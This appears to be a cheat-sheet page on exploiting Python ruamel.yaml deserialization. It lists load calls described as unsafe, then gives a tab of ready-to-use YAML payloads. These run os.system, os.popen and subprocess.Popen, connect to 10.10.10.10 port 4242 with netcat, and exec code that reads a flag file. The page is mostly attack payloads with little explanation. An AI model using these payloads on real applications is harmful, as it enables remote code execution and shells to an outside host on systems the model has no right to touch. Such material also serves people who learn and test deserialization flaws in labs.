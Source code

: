 ### **Ruamel.yaml** Deserialization

{% tabs %}
{% tab title="Enumerate" %}
To deserialize in **ruamel.yaml** , following methods are vulnerable to arbitrary code execution:

```python
import ruamel.yaml
data = b"""!!python/object/apply:subprocess.Popen
- ls"""

ruamel.yaml.load(data)
ruamel.yaml.load(data, Loader=ruamel.yaml.Loader)
ruamel.yaml.load(data, Loader=ruamel.yaml.UnsafeLoader)
ruamel.yaml.load(data, Loader=ruamel.yaml.FullLoader)
ruamel.yaml.load_all(data)
ruamel.yaml.load_all(data, Loader=ruamel.yaml.Loader)
ruamel.yaml.load_all(data, Loader=ruamel.yaml.UnSafeLoader)
ruamel.yaml.load_all(data, Loader=ruamel.yaml.FullLoader)

```
{% endtab %}

{% tab title="Payloads" %}
If we controll some variables passed to a vulnerable functions, we can inject arbitrary code. here are example of some payloads:

```bash
!!python/object/apply:time.sleep [10]
!!python/object/apply:builtins.range [1, 10, 1]
!!python/object/apply:os.system ["nc 10.10.10.10 4242"]
!!python/object/apply:os.popen ["nc 10.10.10.10 4242"]
!!python/object/new:subprocess [["ls","-ail"]]
!!python/object/new:subprocess.check_output [["ls","-ail"]]

!!python/object/apply:subprocess.Popen
- ls

!!python/object/apply:subprocess.Popen
- !!python/tuple
  - cmd.exe
  - /c
  - dir
  
!!python/object/new:str
state: !!python/tuple
- 'print(getattr(open("flag\x2etxt"), "read")())'
- !!python/object/new:Warning
  state:
    update: !!python/name:exec
```
{% endtab %}
